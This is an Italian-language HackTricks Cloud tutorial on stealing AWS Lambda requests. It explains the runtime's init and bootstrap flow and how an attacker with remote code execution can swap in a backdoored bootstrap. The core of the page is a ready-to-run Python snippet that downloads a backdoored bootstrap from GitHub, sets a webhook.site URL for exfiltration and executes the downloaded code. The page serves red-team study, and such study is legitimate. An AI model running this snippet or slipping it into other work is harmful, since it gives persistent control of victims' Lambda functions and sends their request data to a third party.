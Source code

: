 # AWS - Rubare le Richieste Lambda

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo esterno al contenitore che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisci la risposta del gestore per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisci un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene invocazioni dal processo init e chiama il codice dell'utente per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia a init la **risposta**

Nota che bootstrap carica il codice dell'utente come un modulo, quindi qualsiasi esecuzione di codice eseguita dal codice dell'utente avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice dell'utente un processo **`bootstrap.py`** malevolo all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap malevolo** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** a eseguire quello malevolo, quindi non chiederà richieste al processo init.

Questo è un compito semplice da raggiungere poiché il codice dell'utente viene eseguito dal legittimo processo **`bootstrap.py`**. Quindi l'attaccante potrebbe:

* **Inviare un risultato falso dell'invocazione corrente al processo init**, così init pensa che il processo bootstrap stia aspettando ulteriori invocazioni.
* Deve essere inviata una richiesta a **`/${invoke-id}/response`**
* L'invoke-id può essere ottenuto dallo stack del legittimo processo **`bootstrap.py`** utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Eseguire un **`boostrap.py`** malevolo che gestirà le prossime invocazioni
* Per motivi di furtività, è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice malevolo ed eseguirlo dall'attuale invocazione lambda.

### Passi dell'Attacco

1. Trova una vulnerabilità **RCE**.
2. Genera un **bootstrap** **malevolo** (ad es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Esegui** il bootstrap malevolo.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
